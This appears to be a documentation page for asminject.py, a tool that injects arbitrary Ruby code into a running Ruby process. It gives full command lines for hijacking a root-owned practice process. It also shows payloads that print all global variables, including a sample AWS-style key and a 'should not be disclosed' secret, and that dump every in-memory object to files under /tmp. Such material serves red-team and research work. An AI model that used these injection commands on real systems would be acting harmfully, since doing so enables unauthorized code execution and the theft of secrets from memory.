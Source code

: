 # asminject.py examples - Ruby
* [Execute arbitrary Ruby code inside an existing Ruby process](#execute-arbitrary-ruby-code-inside-an-existing-ruby-process)
* [Write all global variables to standard out](#write-all-global-variables-to-standard-out)
* [Write a text representation of all objects in memory to disk](#write-a-text-representation-of-all-objects-in-memory-to-disk)

## Execute arbitrary Ruby code inside an existing Ruby process

The `execute_ruby_code.s` payload currently has a few limitations:

* No ability to require additional Ruby gems
* The targeted process will lock up after the injected code finishes executing

This payload requires one variable: `rubycode`, which should contain the Ruby code you want to execute in the existing Ruby process.

This payload requires relative offsets for the `libruby` shared library used by the target process.

In one terminal window, launch the practice Ruby loop, e.g.:

```
$ ruby practice/ruby_loop.rb

2022-05-12T13:40:51-0700 - Loop count 0
2022-05-12T13:40:56-0700 - Loop count 1
2022-05-12T13:41:01-0700 - Loop count 2
```

In a separate window, find the target process, and inject the code:

```
# ps auxww | grep ruby | grep -v grep

root     2037714  [...] ruby practice/ruby_loop.rb

# python3 ./asminject.py 2037714 execute_ruby_code.s \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var rubycode "puts(\\\"Injected Ruby code\\\")"
```

In the first window, note that the loop is interrupted by the injected code, but fails to continue executing the original loop even though the process remains running:

```
2022-05-12T13:44:41-07:00 - Loop count 7
2022-05-12T13:44:46-07:00 - Loop count 8
Injected Ruby code
```

## Write all global variables to standard out

Use [the following Ruby code, which was borrowed from this Gist by Dmitry Yakimenko](https://gist.github.com/detunized/1620634)

```
global_variables.sort.each do |name|; puts "#{name}: #{eval "#{name}.inspect"}
```

e.g.

```
# python3 ./asminject.py 84955 execute_ruby_code.s --arch x86-64 \
   --relative-offsets-from-binaries \
   --stop-method "slow" \
   --var rubycode "global_variables.sort.each do |name|; puts \\\"#{name}: #{eval \\\"#{name}.inspect\\\"}\\\"; end"
```

Example output:

```
2022-06-07T13:50:06-07:00 - Loop count 10
2022-06-07T13:50:11-07:00 - Loop count 11
$!: nil
...omitted for brevity...
$$: 84955
...omitted for brevity...
$0: "practice/ruby_loop.rb"
...omitted for brevity...
$example_global_var_1: "AKIASADF9370235SUAS0"
$example_global_var_2: "This value should not be disclosed"

```

## Write a text representation of all objects in memory to disk

Use the following Ruby code:

```
$obj_dump_counter = 0; ObjectSpace.each_object{|e| File.open("/tmp/rubydump-#{$obj_dump_counter}.dat", "wb") { |file| file.write(e); $obj_dump_counter += 1; }}
```

e.g.

```
python3 ./asminject.py 163017 execute_ruby_code.s --arch x86-64 \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var rubycode '$obj_dump_counter = 0; ObjectSpace.each_object{|e| File.open(\"/tmp/rubydump-#{$obj_dump_counter}.dat\", \"wb\") { |file| file.write(e); $obj_dump_counter += 1; }}'
```